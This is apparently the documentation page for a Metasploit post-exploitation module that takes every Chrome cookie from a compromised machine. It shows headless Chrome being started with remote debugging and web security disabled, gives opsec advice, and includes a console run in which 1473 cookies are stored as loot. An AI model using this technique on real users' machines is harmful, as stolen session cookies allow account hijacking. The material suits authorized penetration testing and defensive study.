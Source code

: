 ## Gather Chrome Cookies

Uses [Headless Chrome](https://developers.google.com/web/updates/2017/04/headless-chrome) and [Chrome's Remote Debugging](https://chromedevtools.github.io/devtools-protocol/) to read all cookies from the Default Chrome profile of the user.

## Opsec

This writes to disk temporarily. You may want to consider the tradeoff between getting the user's Chrome cookies and the noisiness of writing to disk.

The module writes a random 10-15 character file containing HTML to a directory you can specify via `WRITABLE_DIR`.

## Vulnerable Application

This technique works on Chrome 59 or later on all operating systems. Note that this module does not yet support Windows, only Linux and macOS.

Chrome does not need to be running on the target machine for this module to work.

## Verification Steps

  1. Obtain a session on the target machine
  2. Do: ```use post/multi/gather/chrome_cookies```
  3. Do: ```set SESSION <your session ID>```
  4. Do: ```run```
  5. The current user's Chrome cookies will be stored as loot

## Options


  **CHROME_BINARY_PATH**

  The path to the user's Chrome binary. On Linux this defaults to searching for `google-chrome` in `$PATH`. On macOS, this defaults to `/Applications/Google Chrome.app/Contents/MacOS/Google Chrome'`. If the module doesn't find any cookies, it may be that a different Chrome binary to the one the user normally uses is being run. In that case, you can change the Chrome binary executed with this option.

  **WRITABLE_DIR**

  Directory used to write temporary files.

  Only one file is written, with a random 10-15 character alphanumeric filename. This file is html to be read by Chrome, and is deleted after use.

  **REMOTE_DEBUGGING_PORT**

  Port to tell Chrome to expose Remote Debugging on. Default is the normal remote debugging port, `9222`.

## Scenarios

### Linux (or OS X)

  Suppose you've got a session on the target machine.

  To extract the target user's Chrome cookies

```
msf > use post/multi/gather/chrome_cookies 
msf post(multi/gather/chrome_cookies) > options

Module options (post/multi/gather/chrome_cookies):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   CHROME_BINARY_PATH                      no        The path to the user's Chrome binary (leave blank to use the default for the OS)
   REMOTE_DEBUGGING_PORT  9222             no        Port on target machine to use for remote debugging protocol
   SESSION                1                yes       The session to run this module on.
   WRITABLE_DIR       /tmp             no        Where to write the html used to steal cookies temporarily

msf post(multi/gather/chrome_cookies) > set session <your session id>
session => <your session id>
msf post(multi/gather/chrome_cookies) > run

[*] Activated Chrome's Remote Debugging via google-chrome --headless --disable-web-security --disable-plugins --user-data-dir="/home/<username>/.config/google-chrome/" --remote-debugging-port=9222 /tmp/qj9ADWM6Xqh
[+] 1473 Chrome Cookies stored in /home/<local_username>/.msf4/loot/20181209094655_default_127.0.0.1_chrome.gather.co_585357.txt
[*] Post module execution completed
```


## Future features

### Windows support
This technique works on Windows as well, this module just doesn't implement the Windows-specific functionality.

### Profiles
This module only extracts cookies from the default Chrome profile. The target may have multiple, and you may which to extract cookies from all of them. This would require enumerating and extracting the profiles by name. Example code to extract cookies from a non-default Chrome profile can be found at https://github.com/defaultnamehere/cookie_crimes.

## See also
See https://github.com/defaultnamehere/cookie_crimes for more information and manual instructions for Windows.

See https://mango.pdf.zone/stealing-chrome-cookies-without-a-password for the blog post in which this technique was first published.


